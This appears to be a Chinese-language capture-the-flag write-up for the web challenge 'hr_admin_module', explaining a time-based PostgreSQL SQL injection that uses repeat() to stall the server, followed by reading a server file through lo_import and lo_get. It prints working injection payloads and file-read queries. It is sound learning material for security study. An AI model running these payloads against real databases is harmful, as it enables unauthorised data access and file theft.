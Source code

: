 # hr_admin_module

Solved: 4

<br>

這題是這場我花最多時間的 web 題，不過還蠻好玩的，發現很多新招XD

首先是 SQL Injection:

從 `user_search` 參數可以發現 SQL Injection 特徵

當我輸入不合 SQL 語法時，會噴 Warning ，但他是第二次 Request 才會顯示

e.g. 

- 有warning: `admin'` or `admin'-` ...

- 沒warning: `admin'--` or `admin''` or `admin' and 1=2 --` ...

而且這題似乎擋了很多東西，`pg_sleep`無法用，`dblink`簡單踹一下似乎也沒dns request (但賽後才知道好像其實可以?)

後來就發現 `repeat()` 可以讓 Server 卡住 

e.g. `'and 1=2 union select NULL, (select case when 1=1 then (select repeat('a', 10000000)) else NULL end)--`

所以我們就有了 Time-based 的 SQL Injection

先撈一些基本資訊:

```
version: (Debian 11.2-1.pgdg90+1)
current_db: docker_db
current_schema: public
table of public: searches
columns of searches: id,search
current_query: SELECT * FROM searches WHERE search = 'YOUR_INPUT'
```

但後來撈了一整天，DB 裡面沒看到啥可用的東西，`pg_read_file` , `pg_ls_dir` 等函數也都不能用

可是 `/var/lib/postgresql/data/secret` 這個 path 很明顯是 default data directory

所以應該還是有辦法能讀檔

猜測是要找到某個沒被限制的函數去讀檔

找了無數個小時，還翻了postgres src

最後我在本機 local 端，試著找所有名字包含`read`的 function: 

`SELECT proname FROM pg_proc WHERE proname like '%read%';`

=>

```
 loread
 pg_stat_get_db_blk_read_time
 pg_read_file_old
 pg_read_file
 pg_read_binary_file
```

最後根據第一筆結果找到 `lo_import`, `lo_read`(`loread`), `lo_open`, ... 這些同系列的 function

https://www.postgresql.org/docs/11/lo-funcs.html

官方文件中表示`lo_import` 可以把檔案載入進 Object 中

遠端測試: `lo_import('/var/lib/postgresql/data/secret')`

有回傳一個 OID 回來，所以代表 flag 有成功載入進去

接著用 `lo_get(OID)`，把這個 OID 對應的 Object 讀出來就行

```
select cast(lo_import('/var/lib/postgresql/data/secret') as text)
=> 18440

select cast(lo_get(18440) as text)
=> \x66627b4040646e....
```


`fb{@@dns_3xfil_f0r_the_w1n!!@@}`

(it looks like this is unintended solution :p)

